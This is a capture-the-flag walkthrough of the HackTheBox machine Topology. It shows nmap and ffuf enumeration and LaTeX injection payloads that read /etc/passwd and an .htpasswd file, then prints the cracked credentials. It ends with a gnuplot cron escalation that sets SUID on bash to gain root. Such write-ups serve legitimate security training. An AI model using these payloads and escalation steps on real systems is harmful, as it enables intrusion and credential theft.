```yaml
---
categories: [HackTheBox]
tags: [LaTeX, subdomain, PrivEsc]  
image:
  path: /Vulnhub-Files/img/Topology/Untitled.png
  alt: Topology HackTheBox Machine 🫡
---
```




## Port Scan Results ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ cat Nmap_results.txt 
# Nmap 7.94 scan initiated Wed Oct  4 21:24:34 2023 as: nmap -sC -sV -p- -T4 -oN Nmap_results.txt 10.10.11.217
Nmap scan report for 10.10.11.217
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}
{: .nolineno}

## Web Enumeration ⤵️

While checking port 80 I got the DNS name that is `topology.htb` and I searched for any subdomains and through source code I got one subdomain and rest from ffuf tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%201.png)

form source code I got one →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%202.png)

Now with tool called as `ffuf` I got 2 other subdomains →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H "Host: FUZZ.topology.htb" -u http://topology.htb -fs 6767

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       'v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://topology.htb
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.topology.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 6767
________________________________________________

dev                     [Status: 401, Size: 463, Words: 42, Lines: 15, Duration: 1659ms]
stats                   [Status: 200, Size: 108, Words: 5, Lines: 6, Duration: 852ms]
:: Progress: [19966/19966] :: Job [1/1] :: 11 req/sec :: Duration: [0:24:26] :: Errors: 0 ::
```
{: .nolineno}
{: .nolineno}

Lets see the `latex.topology.htb` site first →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%203.png)

I then searched for Latex Injection on web and I got some inputs like this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%204.png)

I used this one to get the output →

```bash
$\lstinputlisting{/etc/passwd}$
```
{: .nolineno}
{: .nolineno}

![Untitled](/Vulnhub-Files/img/Topology/Untitled%205.png)

Now as I got the `dev` subdomain so I think this site is `apache` based and could contains `.htpasswd` file so lets try to access this file →

```bash
$\lstinputlisting{/var/www/dev/.htpasswd}$
```
{: .nolineno}
{: .nolineno}

and I got this →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%206.png)

```bash
vdaisley : $apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```
{: .nolineno}
{: .nolineno}

Now Lets crack this hash with hashcat Tool →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%207.png)

```bash
vdaisley : calculus20
```
{: .nolineno}
{: .nolineno}

## SSH SHELL ⤵️

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Topology]
└─$ ssh vdaisley@topology.htb
vdaisley@topology.htbs password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status

The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ whoami
vdaisley
vdaisley@topology:~$ id
uid=1007(vdaisley) gid=1007(vdaisley) groups=1007(vdaisley)
vdaisley@topology:~$
```
{: .nolineno}
{: .nolineno}

Lets dig deeper for root access →

I capture these data through pspy64 Tool that analyses the network pattern →

![Untitled](/Vulnhub-Files/img/Topology/Untitled%208.png)

I searched on web regarding this gnuplot and I get the info as →

> ***gnuplot*** is a command-line and GUI program that can generate two- and three-dimentional plots of functions, data, and data fits.
{: .prompt-tip }

and I also got an exploit related to it from [here](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/).

In this case I created a file called as `test.plt` and executed the command to make `bash` have SUIDs permission , as the cron will execute on its own through root privileges so →

```bash
vdaisley@topology:/tmp$ nano /opt/gnuplot/test.plt
vdaisley@topology:/tmp$ cat /opt/gnuplot/test.plt
system "chmod u+s /bin/bash"
vdaisley@topology:/tmp$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
vdaisley@topology:/tmp$ /bin/bash -p
bash-5.0# whoami
root
bash-5.0# id
uid=1007(vdaisley) gid=1007(vdaisley) euid=0(root) groups=1007(vdaisley)
bash-5.0# cd /root
bash-5.0# ls -al
total 28
drwx------  4 root root 4096 Jun 14 07:47 .
drwxr-xr-x 18 root root 4096 Jun 12 10:37 ..
lrwxrwxrwx  1 root root    9 Mar 13  2022 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Jan 17  2023 .bashrc
drwx------  3 root root 4096 Jan 17  2023 .config
drwxr-xr-x  3 root root 4096 May 12 07:34 .local
-rw-r--r--  1 root root  161 Jan 17  2023 .profile
-rw-r-----  1 root root   33 Oct  4 14:00 root.txt
bash-5.0#
```
{: .nolineno}
{: .nolineno}

I am Root Now !!

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }